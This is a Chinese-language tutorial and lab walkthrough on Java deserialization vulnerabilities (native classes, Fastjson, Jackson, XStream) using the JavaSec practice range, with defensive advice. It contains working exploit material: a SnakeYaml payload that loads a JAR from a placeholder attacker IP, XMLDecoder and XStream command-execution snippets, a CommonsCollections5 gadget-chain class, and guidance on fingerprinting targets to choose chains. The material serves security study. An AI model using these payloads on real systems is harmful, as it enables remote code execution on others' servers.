 ## Java反序列化1（原生类）

序列化是将Java对象转换成字节流的过程。而反序列化是将字节流转换成Java对象的过程，java序列化的数据一般会以标记(ac ed 00 05)开头，base64编码的特征为rO0AB，JAVA常见的序列化和反序列化的方法有JAVA 原生序列化和JSON 类（fastjson、jackson）序列化等。

Java中可分为：原生反序列化类(ObjectInputStream.readObject()、SnakeYaml、XMLDecoder等)、三方组件反序列化(Fastjson、Jackson、Xstream等)

Java反序列化机制是对象持久化和网络传输的核心，但也因其复杂性成为安全漏洞的高发区。以下从原生反序列化类和第三方组件两方面进行系统性分析：

------

## 介绍

### ⚙️ **一、原生反序列化类**

#### **1. `ObjectInputStream.readObject()`**

- **机制**：Java标准库通过`ObjectInputStream`将字节流还原为对象，要求目标类实现`Serializable`接口。

- **流程**：

  ```
  try (ObjectInputStream ois = new ObjectInputStream(new FileInputStream("data.ser"))) {
      Employee emp = (Employee) ois.readObject(); // 强制类型转换
  } catch (ClassNotFoundException | IOException e) {...}
  ```

- **特性**：

  - **版本兼容**：依赖`serialVersionUID`校验类定义一致性，不匹配则抛出`InvalidClassException`。
  - **字段处理**：忽略`static`和`transient`修饰的字段（后者常用于排除敏感数据如密码）。

- **风险**：恶意构造的字节流可触发任意代码执行（如利用`readObject`中的重写逻辑）。

#### **2. SnakeYaml**

- **用途**：解析YAML数据为Java对象，支持`Yaml.load()`反序列化。

- **语法特性**：

  - 通过`!!`强制类型转换（如`!!com.example.User`）。
  - 支持嵌套结构（如`[[列表]]`）和复杂映射。

- **漏洞原理**：

  - 利用SPI机制动态加载类，例如恶意构造`!!javax.script.ScriptEngineManager`加载远程JAR，触发静态代码块执行命令。

  - 复现POC：

    ```
    !!javax.script.ScriptEngineManager [
      !!java.net.URLClassLoader [[!!java.net.URL ["http://攻击者IP/malicious.jar"]]]
    ]
    ```

- **防护**：使用`SafeConstructor`白名单限制可加载类。

#### **3. XMLDecoder**

- **机制**：JDK内置组件，解析XML生成对象，常用于WebLogic等场景。
- **风险**：
  - 可执行Java表达式（如`<java><void method="exec"><string>calc.exe</string></void></java>`），直接触发命令执行。
- **与标准差异**：基于XML标签构建对象，而非字节流，攻击面更广。

#### **原生方式对比**

| **类型**            | **数据格式** | **关键方法**   | **高危场景**          |
| ------------------- | ------------ | -------------- | --------------------- |
| `ObjectInputStream` | 二进制字节流 | `readObject()` | 恶意字节流触发RCE     |
| **SnakeYaml**       | YAML文本     | `Yaml.load()`  | SPI机制加载远程恶意类 |
| **XMLDecoder**      | XML文本      | `readObject()` | 解析XML执行Java代码   |

------

### 📦 **二、第三方反序列化组件**

#### **1. Fastjson**

- **用途**：阿里开源的JSON处理库，通过`JSON.parseObject()`反序列化。
- **漏洞模式**：
  - 利用`@type`指定任意类（如`com.sun.rowset.JdbcRowSetImpl`），结合JNDI注入实现RCE。
  - 攻击链：`setDataSourceName()`触发LDAP请求加载恶意类。
- **修复**：启用`SafeMode`或升级到加固版本。

#### **2. Jackson**

- **机制**：Spring生态默认JSON库，通过`ObjectMapper.readValue()`反序列化。
- **风险**：
  - 需开启多态类型解析（`enableDefaultTyping()`）时，攻击者可通过`@JsonTypeInfo`注入恶意子类。
- **防护**：禁用多态绑定，使用`@JsonTypeId`显式控制类型。

#### **3. XStream**

- **用途**：XML与对象转换库，支持`fromXML()`方法。
- **漏洞**：
  - 未配置类型限制时，可构造XML调用`ProcessBuilder`执行系统命令（如`<java.lang.ProcessBuilder><command>calc.exe</command></java.lang.ProcessBuilder>`）。
- **加固**：通过`XStream.setupDefaultSecurity()`设置类型黑名单。

#### **第三方库风险共性**

- **入口点**：均通过自定义注解或字段（如Fastjson的`@type`、Jackson的`@JsonTypeInfo`）指定类型。
- **利用链**：依赖目标环境中的危险类（如`JdbcRowSetImpl`、`TemplatesImpl`）。

------

### 🛡️ **三、反序列化安全防护**

1. **输入校验**
   - 禁止反序列化不可信数据源（如用户上传文件、网络请求）。
2. **类白名单**
   - SnakeYaml使用`SafeConstructor`，Fastjson启用`SafeMode`，XStream注册`AllowedClassTypes`。
3. **依赖管理**
   - 移除危险类（如`com.sun.rowset.JdbcRowSetImpl`），升级库版本修复已知漏洞。
4. **运行时监控**
   - 通过Java Agent检测敏感方法调用（如`Runtime.exec()`）。

#### **漏洞影响对比**

| **漏洞类型**    | **利用难度** | **影响范围**   | **防御难点**              |
| --------------- | ------------ | -------------- | ------------------------- |
| **SPI类加载链** | 中           | 任意代码执行   | 需完全限制外部类加载      |
| **JNDI注入链**  | 低           | 远程类加载+RCE | 依赖JDK版本（>8u191缓解） |
| **表达式注入**  | 高           | 本地代码执行   | XML/JSON解析逻辑复杂性    |

------

### 💎 **总结**

Java反序列化是开发中的双刃剑：**原生机制**（如`ObjectInputStream`、XMLDecoder）需警惕字节流篡改；**第三方库**（如Fastjson、SnakeYaml）的灵活语法带来更大攻击面。防护核心在于：**严格校验输入**、**限制可反序列化类型**、**及时更新依赖**。在实际开发中，若非必要场景（如RPC传输），建议优先选用JSON等安全序列化格式，避免使用原生二进制或复杂嵌套结构的数据格式。

## 靶场

https://github.com/bewhale/JavaSec

部署：

> git clone https://github.com/bewhale/JavaSec.git
>
> 
>
> 
>
> 使用idea的数据库链接
>
> 
>
> 
>
> 选择下载项目下的sql文件执行之后，配置项目
>
> 
>
> 选择jdk1.8版本。然后就可以启动了
>
> http://127.0.0.1:8000/ 
>
> admin/admin
>
> 


## 序列化漏洞

来到序列化专题

### readObjext

Java 反序列化

序列化是将 Java 对象转换成字节流的过程。而反序列化是将字节流转换成 Java 对象的过程

java序列化的数据一般会以标记(ac ed 00 05)开头，base64编码后的特征为rO0AB

JAVA 常见的序列化和反序列化的方法有JAVA 原生序列化和 JSON 类（fastjson、jackson）序列化

序列化和反序列化通过ObjectInputStream.readObject()和ObjectOutputStream.writeObject()方法实现。在java中任何类如果想要序列化必须实现java.io.Serializable接口

java.io.Serializable其实是一个空接口，在java中该接口的唯一作用是对一个类做一个标记，让jre确定这个类是可以序列化的。

同时java中支持在类中定义writeObject、readObject函数，这两个函数不是java.io.Serializable的接口函数，而是约定的函数

如果一个类实现了这两个函数，那么在序列化和反序列化的时候ObjectInputStream.readObject()和ObjectOutputStream.writeObject()会主动调用这两个函数。这也是反序列化产生的根本原因



查看后端代码



> 这段代码直接反序列化输入的base64编码的数据
>
> - 1、**输入控制点**：`content`参数直接接收用户输入，经过Base64解码后直接进行反序列化操作。攻击者可以构造恶意的序列化对象，利用`readObject()`方法触发任意代码执行
>
> - 2、**Base64解码问题**：虽然代码处理了空格替换加号的问题（防止HTTP传输过程中加号被转义为空格），但没有对输入内容进行任何验证或过滤
>
> - 3、**危险的反序列化操作**：`java.io.ObjectInputStream`直接反序列化不可信数据，如果环境中存在可利用的Gadget Chain（如Apache Commons Collections），可能导致远程代码执行

所以当我们点击执行就会弹出计算器

执行流程



下面是对payload的还原，可能不准确，通过工具配合ai还原的

```java
// 核心漏洞利用链（基于CommonsCollections5）
import javax.management.BadAttributeValueExpException;
import org.apache.commons.collections.Transformer;
import org.apache.commons.collections.functors.*;
import org.apache.commons.collections.map.LazyMap;
import java.util.HashMap;
import java.lang.reflect.*;

public class MaliciousPayload {
    public static void main(String[] args) throws Exception {
        // 1. 构造Transformer调用链（核心攻击代码）
        Transformer[] transformers = new Transformer[] {
            new ConstantTransformer(Runtime.class),
            new InvokerTransformer("getMethod", 
                new Class[] {String.class, Class[].class}, 
                new Object[] {"getRuntime", new Class[0]}),
            new InvokerTransformer("invoke", 
                new Class[] {Object.class, Object[].class}, 
                new Object[] {null, new Object[0]}),
            new InvokerTransformer("exec", 
                new Class[] {String.class}, 
                new Object[] {"calc.exe"}) // 实际攻击会替换为恶意命令
        };
        
        // 2. 包装成ChainedTransformer
        Transformer transformerChain = new ChainedTransformer(transformers);
        
        // 3. 使用LazyMap触发漏洞
        HashMap<String, String> map = new HashMap<>();
        Map lazyMap = LazyMap.decorate(map, transformerChain);
        
        // 4. 通过BadAttributeValueExpException触发反序列化
        BadAttributeValueExpException payload = new BadAttributeValueExpException(null);
        Field valField = payload.getClass().getDeclaredField("val");
        valField.setAccessible(true);
        valField.set(payload, lazyMap);
        
        // 5. 序列化payload对象（实际攻击中发送给目标）
        // ByteArrayOutputStream bos = new ByteArrayOutputStream();
        // ObjectOutputStream oos = new ObjectOutputStream(bos);
        // oos.writeObject(payload);
        // oos.close();
    }
}
```

整个过程的关键是**反序列化时的 “隐式方法调用”**：
`ObjectInputStream.readObject()` → 重建`BadAttributeValueExpException` → 访问`val`字段（`LazyMap`） → 触发`LazyMap.get()` → 执行`ChainedTransformer`调用链 → 执行系统命令。

#### 工具利用

#### Yakit

-Yakit https://yaklang.com/    



粘贴后就可以弹出计算器了

在测试的时候可以先使用先用 “无危害探测链” 验证反序列化漏洞存在





然后提交



就可以看到数据了

> 在 Java 反序列化利用中，选择合适的利用链（Gadget Chain）核心在于**匹配目标环境的依赖库、版本及应用特性**。工具（如 ysoserial、marshalsec 等）只是生成对应链的 payload，能否成功利用完全取决于目标环境是否满足该链的 “触发条件”。以下是判断和选择利用链的核心思路：
>
> ### 一、核心判断依据：目标环境信息
>
> 任何利用链的触发都依赖目标环境中存在特定的类（通常来自第三方库），且这些类的版本支持链的调用逻辑（未被修复）。因此，**收集目标环境信息是第一步**。
>
> #### 1. 确定目标使用的框架 / 依赖库
>
> 反序列化利用链几乎都依赖第三方库（如 Apache Commons Collections、Jackson、ROME 等），或应用服务器自带的库（如 WebLogic、JBoss 的内置类）。需通过以下方式收集：
>
> - 指纹识别：通过应用响应头、错误页面（如500错误栈）、特殊路径（如/META-INF/maven/）获取依赖信息。例如：
>   - 错误栈中出现`org.apache.commons.collections` → 存在 Commons Collections 库；
>   - 响应头包含`X-Powered-By: JBoss` → 可能存在 JBoss 相关库。
> - **文件泄露**：若能获取目标的`WEB-INF/lib/`目录（如通过目录遍历漏洞），直接查看包含的`jar`包（如`commons-collections-3.2.1.jar`）。
> - **主动探测**：用无危害的 “探测链”（如 URLDNS 链）测试时，结合目标是否有特定类的加载行为（需配合日志或流量分析）。
>
> #### 2. 确认依赖库的版本
>
> 同一库的不同版本可能支持不同的链。例如：
>
> - Apache Commons Collections：
>   - 3.1~3.2.1 版本支持`CommonsCollections1-7`等链；
>   - 4.x 版本移除了部分关键类（如`Transformer`相关），原链失效；
> - Jackson：
>   - 2.8.10 之前的版本支持`Jackson`链，高版本修复了`@JsonTypeInfo`的反序列化漏洞。
>
> 需通过版本号（如`jar`包名中的`3.2.1`）或漏洞库（如 CVE）确认版本兼容性。
>
> #### 3. 分析目标应用类型及限制
>
> - **应用服务器类型**：WebLogic、JBoss、Tomcat 等有各自专属的利用链（如 WebLogic 的`wls9_async`链，依赖其内置的`AsyncResponseService`类）。
